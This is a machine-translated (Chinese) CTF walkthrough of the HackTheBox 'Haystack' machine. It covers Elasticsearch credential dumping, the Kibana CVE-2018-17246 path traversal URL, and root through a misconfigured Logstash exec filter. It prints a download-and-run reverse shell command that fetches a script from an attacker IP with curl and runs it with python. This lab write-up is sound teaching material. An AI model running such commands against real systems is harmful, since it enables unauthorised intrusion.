# Haystack — HackTheBox 详细报道

> 原文：<https://infosecwriteups.com/haystack-hackthebox-writeup-7dfd8a6fed5?source=collection_archive---------0----------------------->

## Haystack 本周退役，这是一个简单的难度框，我们可以在其中看到一些隐写内容，并从弹性搜索数据库中获得初始凭证。有了获得的凭证，我们可以 SSH 进入，并通过利用基巴纳中的 CVE-2018–17246，我以基巴纳的身份获得 shell。Kibana 用户可以访问 LogStash config，该配置被错误配置为允许以根用户身份通过错误配置的日志执行代码。


# 计数和侦察

让我们从 nmap 扫描开始，



我们看到端口 **22、80、9200** 是打开的。这里要注意的一点是 ***端口 80*** 的内容类型为`**text/html**`，而 ***端口 9200*** 的内容类型为`**application/json**`，我们可以认为它正在运行某种 API。因为 API 通常在`JSON`返回数据

# 80 — HTTP

网站看起来像这样，


它有一个大海捞针的形象，就是这样。`**gobuster**`没发现什么有趣的东西。由于这是一个 CTF 挑战赛，我猜想图像一定有问题，因为图像是 80 端口上唯一的东西。当我第一次解决这个问题时，我运行了一些基本的隐写工具，但一无所获。我的一个朋友告诉我比这简单，然后我在上面运行`**strings**`工具来找到一个 base64 字符串。他们说是 CTF，是 CTF。



# 弹性搜索— 9200

它正在运行`**version 6.4.2**`弹性搜索。我阅读了它的文档以获得一些概述。



我想办法转储数据库，无意中发现了 https://github.com/taskrabbit/elasticsearch-dump 和 T21。

看文档我们可以通过
[https://www . elastic . co/guide/en/elastic search/reference/6.4/getting-started-list-indexes . html # getting-started-list-indexes](https://www.elastic.co/guide/en/elasticsearch/reference/6.4/getting-started-list-indices.html#getting-started-list-indices)返回指数



我们可以看到我们有两个索引，`**quotes**`和`**bank**`。从`**elasticdump**`开始倾倒吧。



让我们分析一下我们得到的转储。记住引用的信息`**the needle in the haystack is key**`。



引号的最后几个字看起来像一个`**base64 string**`。



> **找到凭证。
> 用户:安全
> 通行证:spanish.is.key**

# 壳作为担保



# 基巴纳列兵

我们可以安全地假设我们正在处理一个`**ELK**`栈，它代表
**Elasticsearch，Logstash，Kibana。**

查看正在运行的进程，我可以看到机器正在按预期运行 kibana 和 logstash。

因为 kibana 是在内部运行的，所以我用

```
**ssh security@10.10.10.115 -L 5601:127.0.0.1:5601**
```



我们可以断定它正在运行`**kibana 6.4.2**`。快速的谷歌搜索让我们来到**CVE-2018–17246**。
[https://github.com/mpgn/CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)

# 壳牌作为基巴纳

> 浏览到网址，
> [http://localhost:5601/API/console/API _ server？SENSE _ VERSION = @ @ SENSE _ VERSION&API =../../../../../../.../../../../../../../../../../../../tmp/test.js](http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../../../../../../../../../tmp/test.js)



为了了解麋鹿栈，我们可以看看图片。



> “ELK”是三个开源项目的缩写:Elasticsearch、Logstash 和 Kibana。Elasticsearch 是一个搜索和分析引擎。Logstash 是一个服务器端数据处理管道，它同时从多个来源获取数据，对其进行转换，然后将其发送到像 Elasticsearch 这样的“stash”。Kibana 允许用户在 Elasticsearch 中用图表和图形可视化数据。
> 
> 简而言之，
> E — Elasticsearch —是搜索和分析引擎
> L — Logstash —处理和存储日志
> K—ki Bana—elastic search 中数据的可视化工具。

所以到目前为止，我们已经放弃了 Elasticsearch，把 shell 作为 Kibana 的用户。我的猜测是在 logstash 中寻找有趣的东西。

# Root 权限

`**logstash**`的配置文件在`**/etc/logstash/conf.d**`中



```
**input.conf**input {
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
}
```

[](https://www.elastic.co/guide/en/logstash/current/configuration-file-structure.html) [## 配置文件的结构|日志参考[7.4] |弹性

### 对于您想要添加到事件处理管道中的每种类型的插件，Logstash 配置文件都有一个单独的部分…

www.elastic.co](https://www.elastic.co/guide/en/logstash/current/configuration-file-structure.html) 

`**input.conf**`正在`**/opt/kibana/**`中查找文件名类似`**logstash_***`的文件。这每十秒钟运行一次。

```
**filter.conf**filter{
        if [type] == "execute" {
                grok {
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
```

如果类型为`**execute**`并且消息格式为
`**Ejecutar commando : <command>**`

```
**output.conf**if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```

根据`**output.conf**` ，类型`**execute**`的输入将使用`**exec**`插件运行。

收集完所有信息并拥有适当的权限后，让我们将反向 shell 放在`**/opt/kibana/logstash_test**`中。

`**logstash_test**`的内容:

```
**Ejecutar comando: curl 10.10.15.236/pyshell.py -o /tmp/kk.py;python /tmp/kk.py**
```



干草堆扎根。

感谢阅读，
Preetham。

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)